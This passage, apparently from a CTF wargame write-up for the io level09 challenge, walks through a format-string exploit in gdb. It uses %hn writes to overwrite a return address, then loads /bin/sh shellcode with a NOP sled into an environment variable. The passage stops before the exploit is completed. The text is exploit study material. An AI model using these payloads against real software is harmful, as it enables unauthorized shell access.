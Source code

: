 Let's try to write something like `0x1337beef` in her. First, we need to get the offset required for `0xbeef`:

    (gdb) p 0xbeef - 0x23 + 0x8
    $1 = 48852

    (gdb) r $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%48852d%hn%8d%hn')
    Starting program: /levels/level09 $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%48852d%hn%8d%hn')
    Breakpoint 2, 0x080483e9 in main ()
    (gdb) x 0xbffffc3c
    0xbffffc3c:     0xb7e39a63
    (gdb) ni
    0x080483ee in main ()
    (gdb) x 0xbffffc3c
    0xbffffc3c:     0xbef9beef

Same for the second part of the address, except this time we have to get to `0x11337` instead of `0x1337`. That's why we're writing the top part of the address after.

    (gdb) p 0x11337 - 0xbef9 + 0x10
    $1 = 21576

    (gdb) r $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%48852d%hn%21576d%hn')
    Starting program: /levels/level09 $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%48852d%hn%21576d%hn')
    Breakpoint 1, 0x080483e9 in main ()
    (gdb) x 0xbffffc3c
    0xbffffc3c:     0xb7e39a63
    (gdb) ni
    0x080483ee in main ()
    (gdb) x 0xbffffc3c
    0xbffffc3c:     0x1337beef

Nice! And of course if we continue the program, we'll try to jump to an unkown address:

    (gdb) c
    Continuing.

    Program received signal SIGSEGV, Segmentation fault.
    0x1337beef in ?? ()

Now let's put a shellcode in an env variable and let's point to it.

The shellcode is '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' and will be inserted in the `SHELLCODE` env variable:

    level9@io:/levels$ export SHELLCODE=$(python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
    level9@io:/levels$ env
    XDG_SESSION_ID=69539
    SHELLCODE=1Ph//shh/binS̀
    TERM=screen-256color
    ...

Now we need to get its address, using https://raw.githubusercontent.com/nobe4/blocnote/master/C/getenv.c:
